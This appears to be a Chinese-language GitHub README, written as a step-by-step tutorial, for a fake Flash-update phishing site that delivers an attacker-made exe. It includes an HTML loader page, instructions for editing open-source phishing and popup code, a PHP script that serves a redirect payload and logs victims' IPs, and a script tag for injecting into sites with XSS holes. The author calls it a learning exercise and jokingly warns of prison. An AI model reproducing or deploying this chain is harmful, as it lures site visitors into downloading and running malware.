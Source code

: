 # 原版的无法实现自动收杆的效果，就简单改了一下

**好了，正文开始**

需要准备好的东西：域名、一台服务器、弹窗源码、鱼站源码以及做好的exe文件


## 第一步：在服务器上已经配置好NGINX+PHP的环境

省略步骤......


## 第二步：上传鱼站和制作好的exe文件
随便找个鱼站放上去

这里我使用的是x0rz4师傅开源的代码：`https://github.com/x0rz4/Flash_fishing`
然后打开index.html 将所有包含`www.flash.cn`的外链都删了(因为懒)，这样随便点也不会跳转到官方网站了(随意,你想怎么改都行)

最关键的是如何让下载的文件是你制作的, 就是后面的步骤了
修改`/config/flashVersion`这个文件基本上所有下载地址都在这里了，建议全部换成你的域名


创建一个目录`/cdm/latest/`, 这个路径是上面flashVersion中写的路径，用来放置exe文件

## 第三步：上传xss.html弹窗调用页面
主要用于后面的xss
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <script src='./flash.js'></script>
    </head>
    <body>
    </body>
</html>
```
## 第四步：上传弹窗代码

可以看到上面调用了 `flash.js`,我使用的是r00tSe7en师傅的开源弹窗代码：`https://github.com/r00tSe7en/Flash-Pop` , 因此上传这个flash.js

接着修改这个JS，搜索`onclick=window.location.href='https://www.se7ensec.cn/'>`  全JS代码只有这么一个

把这个域名更换成鱼站的地址127.0.0.1

## 第五步：上传收杆检测代码

xss1.php
```
<!-- xss.php的改版 -->
<?php
$xssPayload =  "window.location.href=\"https://127.0.0.1/xss.html\";";
$db = "botIPs.txt";

$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
$botIP = @$_GET['ip'];

/**
1、获取IP
2、判断是否存在对应文件
3、读取里面的内容
*/
// var_dump($_REQUEST);
// var_dump($_SERVER);
if(! $_REQUEST['ip']){
    $ip_content = file_get_contents($db);
    $ip_array = explode(PHP_EOL,$ip_content);
    if(! in_array(base64_encode($ip),$ip_array)){
		header('Content-type: text/javascript');
		echo $xssPayload;
    }
}else{
    if (!is_null($botIP)){
    	file_put_contents($db,base64_encode($botIP).PHP_EOL,FILE_APPEND);
    }
}
?>
```

## 第六步：插入目标

在目标xss漏洞存在的地方插入`<script type="text/javascript" src="https://127.0.0.1/xss.php"></script>`

**姜太公钓鱼，愿者上钩**

# 总结

当所有的东西都配置完成后，你会发现毫无卵用，只要不是傻子一看就能看出来。

那为什么还要写呢? 纯属学习娱乐，原作者的自动收杆没整明白哪一步出了问题导致没复现出来，所以取个巧体验体验自动收杆的感觉。

因此切莫用于实战，否则你将每天过着规律的生活作息，吃着丰盛的美食以及做着充足的劳动。
所谓在规律中改造，秩序中生活，在潜移默化中重塑自我，在积极改造的路上奔向新生，迎接希望！！！
